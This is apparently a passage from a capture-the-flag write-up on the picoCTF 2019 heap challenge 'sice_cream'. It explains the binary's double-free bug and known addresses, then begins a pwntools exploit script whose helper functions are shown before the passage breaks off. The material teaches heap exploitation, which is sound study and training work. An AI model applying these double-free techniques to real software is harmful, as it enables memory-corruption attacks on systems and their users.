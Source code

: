 The program allows us to do the following:

* All user input in the program is done through the `read` function.

* At the beginning of the program, we are allowed to input 0x100 bytes for our name. This name variable is stored in the .bss segment, and since PIE is disabled, it is stored at the known address 0x602040.

* We are allowed to allocate chunks of size <= 0x58. This is essentially what made this challenge so difficult. I will explain a bit more about that below. We are also only allowed to allocate 19 chunks total. There is no way to bring that limit down. Of course we find a way to do it anyway ;)

* Each allocated chunk is stored in a global array of pointers. This pointer is also at a known address right after the name variable. We can free these pointers, and the pointers themselves are not set to NULL after each free, thus allowing us to do double frees.

* We can "reintroduce" ourselves, and change our name. This functionality, as you will soon see, is a godsend for this challenge. It will read in 0x100 bytes again, then it print out our new name. This is the only form of a "leak" we have, so we have to use this to our advantage.

Let's get onto exploiting now.

#### Step 1: **Unsorted bin leak**

As usual with heap challenges, we must first start out by getting a libc leak. I first added the application logic functions and some helper functions at the top:
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './sice_cream'
HOST, PORT = '2019shell1.picoctf.com', 6552

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(name):
    p.sendlineafter('> ', name)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def reintroduce(name):
    p.sendlineafter('> ', '3')
    p.sendafter('> ', name)
    return p.recvuntil('1.')

def start():
    if not args.REMOTE:
```